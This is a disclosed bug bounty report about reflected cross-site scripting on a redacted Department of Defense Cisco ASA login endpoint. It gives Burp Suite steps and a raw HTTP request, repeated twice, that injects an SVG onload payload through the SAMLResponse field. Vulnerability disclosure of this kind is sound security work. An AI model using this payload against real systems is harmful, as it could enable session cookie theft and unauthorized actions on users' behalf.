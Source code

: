 # XSS on ███

## Report Details
- **Report ID**: 1252282
- **URL**: https://hackerone.com/reports/1252282
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-06T09:32:36.592Z
- **Disclosed**: 2021-08-19T19:07:19.999Z

## Reporter
- **Username**: 0xelkot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi , 
I found XSS on ██████████
IP Enumeration 
████

* go to https://███/+CSCOE+/logon.html?a0=15&a1=&a2=&a3=1
* intercept the request by burp suite and send it to repeater
* then edit the request to be like this
```
GET /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: ██████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

SAMLResponse="><svg/onload=alert('0xElkot')>
```
███████

## Impact

Cookie Stealing - A malicious user can steal cookies and use them to gain access to the application.
Arbitrary requests - An attacker can use XSS to send requests that appear to be from the victim to the web server.
Malware download - XSS can prompt the user to download malware. Since the prompt looks like a legitimate request from the
site, the user may be more likely to trust the request and actually install the malware.
Defacement - attacker can deface the website usig javascript code.

Kind Regards,
@0xElkot

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
* go to https://█████████/+CSCOE+/logon.html?a0=15&a1=&a2=&a3=1
* intercept the request by burp suite and send it to repeater
* then edit the request to be like this
```
GET /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: ████████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

SAMLResponse="><svg/onload=alert('0xElkot')>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
